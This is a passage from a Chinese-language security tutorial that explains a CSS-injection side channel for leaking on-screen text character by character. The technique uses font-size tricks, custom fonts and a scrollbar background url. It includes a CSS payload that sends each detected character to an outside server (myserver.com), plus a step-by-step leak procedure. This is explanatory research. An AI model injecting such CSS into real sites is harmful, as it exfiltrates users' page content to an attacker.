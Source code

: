 ``` html
</html>
```

畫面上就只會看到一個「C」的字元，因為我們先用 `font-size: 0px` 把所有字元的尺寸都設為 0，再用 `div::first-line` 去做調整，讓第一行的 font-size 變成 30px。換句話說，只有第一行的字元能看到，而現在的 div 寬度只有 20px，所以只會出現第一個字元。

接著，我們再運用剛剛學會的那招，去載入看看不同的字體。當我載入 fa 這個字體時，因為畫面上沒有出現 A，所以不會有任何變化。但是當我載入 fc 這個字體時，畫面上有 C，所以就會用 Comic Sans MS 來顯示 C，高度就會變高，scrollbar 就會出現，就可以利用它來發出 request，像這樣：

``` css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

那我們要怎麼樣不斷使用新的 font-family 呢？用 CSS animation 就可以做到，你可以用 CSS animation 不斷載入不同的 font-family 以及指定不同的 `--leak` 變數。

如此一來，我們就能知道畫面上的第一個字元到底是什麼。

知道了第一個字元以後，我們把 div 的寬度變長，例如說變成 40px，就能容納兩個字元，因此第一行就會是前兩個字，接著再用一樣的方式載入不同的 font-family，就能 leak 出第二個字元，詳細流程如下：

1. 假設畫面上是 ACB
2. 調整寬度為 20px，第一行只出現第一個字元 A
3. 載入字體 fa，因此 A 用較高的字體顯示，出現 scrollbar，載入 scrollbar 背景，傳送 request 給 server
4. 載入字體 fb，但是 B 沒有出現在畫面上，因此沒有任何變化。
5. 載入字體 fc，但是 C 沒有出現在畫面上，因此沒有任何變化。
6. 調整寬度為 40px，第一行出現兩個字元 AC
7. 載入字體 fa，因此 A 用較高的字體顯示，出現 scrollbar，此時應該是因為這個背景已經載入過，所以不會發送新的 request
8. 載入字體 fb，沒出現在畫面上，沒任何變化
9. 載入字體 fc，C 用較高的字體顯示，出現 scrollbar 並且載入背景
10. 調整寬度為 60px，ACB 三個字元都出現在第一行
11. 載入字體 fa，同第七步
12. 載入字體 fb，B 用較高的字體顯示，出現 scrollbar 並且載入背景
13. 載入字體 fc，C 用較高的字體顯示，但因為已經載入過相同背景，不會發送 request
14. 結束
